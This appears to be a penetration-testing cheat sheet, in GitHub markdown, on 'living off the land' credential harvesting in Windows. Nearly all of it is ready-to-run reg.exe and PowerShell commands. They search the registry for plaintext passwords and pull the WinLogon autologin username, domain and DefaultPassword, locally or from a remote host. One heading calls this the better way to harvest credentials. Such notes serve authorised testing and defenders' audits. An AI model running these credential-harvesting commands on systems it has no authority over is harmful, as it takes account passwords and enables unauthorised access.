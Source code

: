 # Living off the Land

## 01 - Command Prompt

Using a registry to query the plain text password in the key.

### 1.1 - Search for patterns

```
C:\> reg.exe query hklm /f "password" /t REG_SZ /s /k

C:\> reg.exe query hkcu /f "password" /t REG_SZ /s /k
```

### 1.2 - Query WinLogon registry entry

2. **Method 2:** Windows Autologin (This is a better option to harvest the credentials)

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon"

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" [/reg:<32 | 64>] 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

Enumerate one by one.

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName [/reg:<32 | 64>]

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultDomainName [/reg:<32 | 64>]

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultPassword [/reg:<32 | 64>]
```

## 02 - Powershell

### 2.1 - Search for patterns

```
PS C:\> Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | Select-Object "Default*"
```

### 2.2 - Query WinLogon registry entry

```
PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultUserName

PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultDomainName

PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultPassword
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)